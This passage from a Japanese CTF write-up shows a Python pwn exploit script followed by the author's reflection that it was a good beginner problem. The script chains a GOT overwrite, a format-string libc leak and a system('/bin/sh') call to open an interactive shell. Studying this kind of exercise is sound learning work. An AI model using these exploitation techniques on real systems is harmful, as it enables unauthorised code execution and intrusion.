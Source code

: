 ```python

print(s.recv(2048).decode())

print("[info] overwrite buffer address to atol@got")
s.sendall(str(malloc_got).encode()) # malloc
# s.sendall(str(0x601040).encode()) # atol
# time.sleep(1)

print(s.recv(2048).decode())
time.sleep(1)

print("[info] overwrite atol@got to printf@plt")
s.sendall(b"a"*8 + printf_plt.to_bytes(8, 'little') + b'\n') # printf
# s.sendall((0x400590).to_bytes(8, 'little'))
time.sleep(1)
print(s.recv(2048))

s.sendall(b"%25$p")
time.sleep(1)
libc_start_main = int(s.recv(14).decode(), 16)
libc_base = libc_start_main - libc_start_main_symbol - 231
print("[info] libc base: ", hex(libc_base))
system = libc_base + libc_system
print("[info] system: ", hex(system))
time.sleep(1)

s.sendall(b"/bin/sh\0" + system.to_bytes(8, 'little'))

print(s.recv(2048))
print("[info] success to exploit!!!")
t = telnetlib.Telnet()
t.sock = s

t.interact()
```

### まとめ
非常に楽しい問題でした．pwnやってる気になりましたね．僕のような初心者が本番で特には難しい問題でしたが，一つ一つステップを踏んで理解すれば解ける問題でした．また，基本的なテクニックが詰まっている問題だったのでこれを自分で理解することができればレベルアップできる気がします．そういった意味で初心者にとってすごくいい問題だったと思います．ありがとうございました．
